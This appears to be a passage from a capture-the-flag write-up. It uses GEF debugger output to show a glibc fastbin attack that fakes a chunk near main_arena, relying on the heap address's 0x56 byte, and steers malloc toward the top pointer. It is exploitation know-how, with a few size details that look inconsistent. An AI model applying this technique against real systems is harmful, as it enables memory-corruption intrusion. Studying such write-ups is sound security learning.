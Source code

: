 ```
gef> heap bins fast
---- Fastbins for arena 0x7f883fa2db20 ----
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] <- Chunk(addr=0x563b4f62f0a0, size=0x30, flags=PREV_INUSE) <- Chunk(addr=0x563b4f62f070, size=0x30, flags=PREV_INUSE) 
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] <- Chunk(addr=0x563b4f62f0d0, size=0x50, flags=) 
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00

gef> tel 0x00007f883fa2db2d 6
0x00007f883fa2db2d|+0x0000: 0x3b4f62f090000000
0x00007f883fa2db35|+0x0008: 0x0000000000000056
0x00007f883fa2db3d|+0x0010: 0x3b4f62f0c0000000 -> target
0x00007f883fa2db45|+0x0018: 0x0000000000000056
0x00007f883fa2db4d|+0x0020: 0x0000000000000000
0x00007f883fa2db55|+0x0028: 0x0000000000000000


gef> heap chunk 0x00007f883fa2db3d
Chunk(addr=0x7f883fa2db3d, size=0x50, flags=IS_MMAPPED|NON_MAIN_ARENA)
Chunk size: 80 (0x50)
Usable size: 64 (0x40)
Previous chunk size: 4273743356745482240 (0x3b4f62f090000000)
PREV_INUSE flag: Off
IS_MMAPPED flag: On
NON_MAIN_ARENA flag: On
```



Now we can see a light out of this. We can't use 0x40 size chunk because we're going to put `main_arena` address to freed list, and `malloc` will yell at us since `0x30 != 0x60`. Also, this is where our luck comes in. Without ASLR, we can see that the chunk size is 0x15, and exploit **will** fail; in fact, the exploit only works if the first byte of heap address is 0x56. If it's 0x55, program will crash somewhere in `malloc`, probably due to `PREV_IN_USE` bit set (honestly I don't know why either). After four allocations, our chunk will land near `top` ptr:
```
gef> p $rax
$5 = 0x7f883fa2db3d -> return value from malloc
gef> tel $rax+3
0x00007f883fa2db40|+0x0000: 0x883fa2db2d000000
0x00007f883fa2db48|+0x0008: 0x0000000000000000
0x00007f883fa2db50|+0x0010: 0x0000000000000000
0x00007f883fa2db58|+0x0018: 0x0000000000000000
0x00007f883fa2db60|+0x0020: 0x0000000000000000
0x00007f883fa2db68|+0x0028: 0x0000000000000000
0x00007f883fa2db70|+0x0030: 0x0000000000000000
0x00007f883fa2db78|+0x0038: 0x0000563b4f62f1b0 -> top
```

